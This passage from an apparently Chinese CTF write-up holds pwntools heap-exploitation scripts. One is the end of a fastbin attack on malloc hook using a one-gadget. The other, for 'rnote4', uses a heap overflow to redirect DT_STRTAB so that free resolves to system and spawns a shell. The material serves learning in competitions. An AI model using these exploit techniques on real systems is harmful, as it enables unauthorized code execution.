     add(0x60,p64(mlh - 0x23))#4
    add(0x60,p64(mlh - 0x23))#5
    delete(4)
    edit(3,0x88)
    edit(3,0x88)
    delete(5)
    delete(4)
    add(0x60,p64(mlh - 0x23))#6
    add(0x60,p64(mlh - 0x23))#7
    add(0x60,'A'*0x3 +p64(one))#8
    add(0x60,'A'*0x3 + p64(0)*2+p64(one))
    
    delete(7)
    delete(7)
    
    io.interactive()

4.rnote4
堆溢出可以控制结构体指针，任意内存读写
但是这个题目没给leak的机会，pie也没开
还以为要爆破之类的。。看了别人的wp才知道可以在dlresolve做文章
思路就是把DT_STRTAB改成一个bss段的地址，之后在bss段上把free函数改成system，然后free一个binsh就完事了（第一次调用）

    from pwn import *
    context.log_level = 'debug'
    
    elf = ELF('RNote4')
    io = process('./RNote4')
    def add(size,content):
    	io.send('\x01')
    	io.send(chr(size))
    	io.send(content)
    def edit(idx,size,content):
    	io.send('\x02')
    	io.send(chr(idx))
    	io.send(chr(size))
    	io.send(content)
    def delete(idx):
    	io.send('\x03')
    	io.send(chr(idx))
    DT_STRTAB = 0x601eb0
    target = 0x602100
    add(0x18,'A'*0x18)
    add(0x18,'B'*0x18)
    add(0x8,'/bin/sh\x00')
    edit(0,0x30,'A'*0x18 + p64(0x21) + p64(0x18) + p64(DT_STRTAB))
    edit(1,0x8,p64(target))
    edit(0,0x30,'A'*0x18 + p64(0x21) + p64(0x18) + p64(target))
    payload = 0x5f * 'A' + 'system'
    edit(1,len(payload),payload)
    delete(2)
    io.interactive()
还有一个坑就是它这个程序很简陋。。发送的字符没有处理。。。需要注意一下。。

